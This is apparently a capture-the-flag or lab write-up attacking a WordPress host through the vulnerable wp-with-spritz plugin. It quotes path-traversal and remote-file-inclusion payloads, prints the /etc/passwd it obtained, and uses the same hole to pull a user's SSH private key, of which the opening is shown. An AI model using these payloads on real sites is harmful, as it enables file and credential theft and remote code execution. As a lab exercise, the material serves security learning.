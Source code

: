### WORDPRESS

Since this is running wordpress we can use wpscan again to look for any vulnerable plugins
```
wpscan --url 172.31.1.8

[i] Plugin(s) Identified:

[+] wp-with-spritz
 | Location: http://172.31.1.8/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
```
I tried running the plugin against the wpvulndb, but it didn't mention a single exploit. I assume that the database is just missing something as this plugin is vulnerable to LFI/RFI which can be found [here](https://www.exploit-db.com/exploits/44544).
```
3. Proof of Concept

/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec
```

### LFI

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
angel:x:1000:1000:angel:/home/angel:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
Here we can see the user "angel" `angel:x:1000:1000:angel:/home/angel:/bin/bash` and we can check to see if we can get a ssh key from the home directory.
```
view-source:http://172.31.1.8/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../home/angel/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAzvdotSTf5cpgq7BjsjR8y7ViuIteCoGX3Co4IiJy+o0datDU
```